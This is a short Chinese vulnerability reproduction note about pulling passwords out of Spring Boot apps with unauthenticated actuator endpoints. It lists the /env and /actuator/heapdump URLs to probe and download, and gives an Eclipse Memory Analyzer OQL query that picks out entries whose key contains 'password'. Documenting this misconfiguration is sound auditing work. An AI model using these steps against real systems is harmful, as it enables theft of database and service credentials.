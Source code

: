 Spring Boot 提取内存密码
========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

> 访问如下路径如果有数据说明存在漏洞

**Spring Boot 1.x版本**`http://www.0-sec.org:8090/env`

**Spring Boot 2.x版本**`http://www.0-sec.org:8090/actuator/env`![2.png](./resource/SpringBoot提取内存密码/media/rId24.png)

> 当发现存在未授权漏洞时，可以直接访问 `/actuator/heapdump`
> 下载内存，提取密码

`http://www.0-sec.org:8090/actuator/heapdump`

> heapdump文件下载完成之后可以利用Eclipse Memory Analyzer 来解析内存文件

    http://www.eclipse.org/mat/downloads.php

> 匹配内存中password字符串，并不一定能匹配完，可以通过`/actuator/env`得到的`JDBC`信息再来匹配关键字

`select * from java.util.Hashtable$Entry x WHERE (toString(x.key).contains("password"))`

![1.png](./resource/SpringBoot提取内存密码/media/rId25.png)
